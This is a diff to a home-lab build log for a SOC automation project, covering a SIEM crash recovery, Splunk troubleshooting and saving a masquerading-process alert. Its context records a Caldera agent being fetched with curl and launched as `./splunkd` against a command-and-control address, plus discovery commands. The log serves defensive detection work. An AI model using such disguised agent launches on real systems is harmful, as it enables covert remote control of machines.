

Before and after one commit to MustafaS14/SOC_Automation_Bot, a Markdown page: docs/lab-build-log.md, 2 parts joined by grey strips. Shown at 99% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs: build log for the restart after the crash and the saved alert
Updated details on the first attack run, including corrections on login names and the alert saving process. Added information about troubleshooting Splunk's health and the alert configuration.

```diff
--- a/docs/lab-build-log.md
+++ b/docs/lab-build-log.md
@@ -348,21 +348,33 @@ Snapshots taken at this point: `soc-siem` and `SOC-Victim-Ubuntu`, both named `p
 
 **In simple words.** We turned the attacker on, let it run a few reconnaissance commands on the victim, and checked that Splunk saw them. Then we wrote the first two "tripwires" (detections). One works and was proven; the other is written but not proven yet.
 
-1. **Starting the attacker.** The first start failed with a generic VirtualBox error. It started on a later try after memory was freed (see [troubleshooting.md](troubleshooting.md)). The login name on all three VMs is `mus`, found in the PowerShell history.
+1. **Starting the attacker.** The first start failed with a generic VirtualBox error. It started on a later try after memory was freed (see [troubleshooting.md](troubleshooting.md)). The attacker's login name is `mus`, found in the PowerShell history (the SIEM uses a different one, see section 15).
 2. **Caldera.** The server started in `tmux` and listened on port 8888. A second attempt to start it printed "address already in use" errors, which only means the first copy was already running. Warnings about the `builder` plugin, Windows payload tools and a few missing abilities are harmless here.
 3. **The agent.** The Sandcat command from Caldera was run on the victim. The agent is named `splunkd` on purpose (it imitates Splunk's own name) and showed `Beacon (HTTP): ALIVE`.
 4. **A clock problem.** The SIEM had been resumed from a saved state and its clock was a day behind, so new events looked like they were from the future and the "last 15 minutes" search found nothing. Searching a wider window (`earliest=-2d latest=+2d`) showed the events were there. After `sudo timedatectl set-ntp true` the clock matched (12:04 UTC on 30 October). Do this after every resume.
 5. **What Splunk recorded.** The agent being downloaded and started (`curl`, `chmod +x`, `./splunkd -server http://192.168.56.30:8888 -group red -v`), then the operation's commands: `whoami`, `cut -d:` (reading the account list), `grep`, `ps aux` and `grep sshd`. Login-banner scripts (`tr`, `cut`) are background noise. Caldera runs its commands through `sh -c '...'`, so the real command can sit in field `a2`, not `a0`.
 6. **Detection 1, several discovery commands in a short time** (MITRE T1033, T1082, T1057, T1087.001). Written to read the real command from either field. It found no result yet because only two different commands (`whoami`, `ps`) fell in one ten-minute window and the rule needs three. Not proven.
 7. **Detection 2, a program called `./splunkd` started from a home directory** (MITRE T1036.004, masquerading). It found exactly one event, the agent start, and extracts the attacker's address `192.168.56.30` from the command. **Proven.**
-8. **The alert was not saved.** Setting it up needed a throttle field and an action, then Splunk said the connection may have been lost: the SIEM VM had crashed (VirtualBox *Guru Meditation*, shown in French as *Méditation profonde*). The alert has to be recreated after the VM is restarted. The cause of the crash has not been investigated.
+8. **The alert was not saved.** Setting it up needed a throttle field and an action, then Splunk said the connection may have been lost: the SIEM VM had crashed (VirtualBox *Guru Meditation*, shown in French as *Méditation profonde*). The alert had to be recreated after the VM was restarted (done on 2 November, see section 15). The cause of the crash has not been investigated.
 
 All detections are listed in [detections.md](detections.md).
 
-## 15. Next
+## 15. Restarting after the crash and saving the alert (2026-11-02)
 
-- Restart `soc-siem` after the crash, wait until Splunk is `healthy`, fix the clock, and look at `VBox.log` for the cause.
-- Recreate the `./splunkd` alert (every 5 minutes, last 15 minutes, throttled by `host` for 30 minutes), then prove detection 1 with a full Discovery run.
+**In simple words.** We turned the SIEM back on, worked through the things that stopped Splunk showing its web page, saved the first alert properly, and kept a copy of it in the repository.
+
+1. **Login name.** The `soc-siem` VM is entered with the user `soc-siem`, not `mus` (`mus` is the attacker's account). Earlier pages that said `mus` for all three machines were wrong and are corrected.
+2. **The clock.** The VM woke up four days behind (its login banner still said 29 October). `sudo timedatectl set-ntp true` and a restart of `systemd-timesyncd` fixed it. Memory (about 6 GB free, no swap use) and disk (36 percent used) were fine.
+3. **Splunk slow to become healthy.** `docker ps` showed Splunk as `health: starting` for about 15 minutes and then `unhealthy`, while Logstash was fine. Splunk was still running its start-up setup (one step, updating the HEC token, took about 5 minutes on this VM). The last health check showed the management port answering, so the label was only catching up.
+4. **The web page said "Connection refused".** The browser showed a short error from Splunk Web. The log showed it forwarding every page to an internal web service on port 8065 that nothing was listening on, while the main Splunk process was running. `docker restart splunk` fixed it and the login page worked again. The reason the web service did not start after the crash was not found.
+5. **Commands that misled.** `docker exec` without `-u splunk` runs as the wrong user and prints "Permission denied" and "pid file unreadable" even though Splunk is fine. The container has no `ss` tool. Use `docker exec -u splunk splunk ...`, and test pages with `curl` from the VM.
+6. **The alert is saved.** The `./splunkd` search returned its one row (the agent start on 30 October) and was saved as an alert with the settings in [detections.md](detections.md), severity High. A new alert is private, so it first sat in the user's own folder (`etc/users/admin/search/local/`). Sharing it with the app (*Edit Permissions*, *Display for: App*, read and write for admin, read for everyone) moved it to `etc/apps/search/local/savedsearches.conf`. A copy is stored in [`infra/siem/splunk/savedsearches.conf`](../infra/siem/splunk/savedsearches.conf) so it can be restored.
+7. **Not yet proven to fire.** The alert only looks at the last 15 minutes, so it will not fire until a new `./splunkd` start happens.
+
+## 16. Next
+
+- Prove the alert fires: start the attacker, fix the clock on each VM, restart the Sandcat agent on the victim, and look in *Activity, Triggered Alerts* within 5 minutes. Then prove detection 1 with a full Discovery run.
+- Look at `VBox.log` for the cause of the SIEM crash (not yet investigated).
 - Write a small custom Splunk alert action that posts the first result row to the bot's webhook with the `X-Webhook-Secret` header (the built-in webhook cannot add headers), with the secret read from a root-only file and never stored in the repo.
 - Create the `responder` user on the victim from [`infra/responder/`](../infra/responder/); run the bot in real mode; send a test alert with `curl`, then a real Caldera run; test isolation from a snapshot first.
 - Try the `op run` setup with a real 1Password item and the systemd credentials on `soc-siem`.
```
